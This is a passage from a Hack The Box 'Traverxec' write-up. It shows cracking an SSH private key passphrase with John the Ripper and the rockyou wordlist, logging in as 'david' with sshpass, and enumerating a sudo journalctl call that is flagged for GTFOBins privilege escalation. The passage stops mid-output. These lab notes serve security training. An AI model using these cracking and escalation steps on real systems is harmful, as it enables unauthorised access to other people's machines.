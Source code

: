 	┌──(root💀kali)-[~/htb/traverxec/10.10.10.165/loot]
	└─# john --wordlist=/usr/share/wordlists/rockyou.txt john_id_rsa
	Using default input encoding: UTF-8
	Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
	Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
	Cost 2 (iteration count) is 1 for all loaded hashes
	Will run 2 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	hunter           (id_rsa)
	```
5. SSH w/ `id_rsa` & `hunter`
	```
	┌──(root💀kali)-[~/htb/traverxec/10.10.10.165/loot]
	└─# sshpass -P 'Enter passphrase' -p 'hunter' ssh -i id_rsa david@traverxec.htb
	Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
	Last login: Sat Sep 24 16:12:21 2022 from 10.10.14.14
	david@traverxec:~$
	```


##  Root - Enumeration
1. Found a script in `david`'s home directory
	```
	david@traverxec:~/bin$ ls -la
	total 16
	drwx------ 2 david david 4096 Sep 24 16:34 .
	drwx--x--x 5 david david 4096 Sep 24 16:37 ..
	-r-------- 1 david david  802 Oct 25  2019 server-stats.head
	-rwx------ 1 david david  363 Oct 25  2019 server-stats.sh
	```
2. View contents of `server-stats.sh`
	```
	david@traverxec:~/bin$ cat server-stats.sh
	#!/bin/bash
	
	cat /home/david/bin/server-stats.head
	echo "Load: `/usr/bin/uptime`"
	echo " "
	echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
	echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
	echo " "
	echo "Last 5 journal log lines:"
	/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
	```
	- `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service`
	- `/usr/bin/journalctl` - has a [GTFOBins entry](https://gtfobins.github.io/gtfobins/journalctl/#sudo)
3. Execute `server-stats.sh`, there is no password prompt, this means that `david` is able to run `/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service` as `root`.
	```
	david@traverxec:~/bin$ ./server-stats.sh
	Load:  17:31:48 up  2:35,  1 user,  load average: 0.00, 0.00, 0.00
	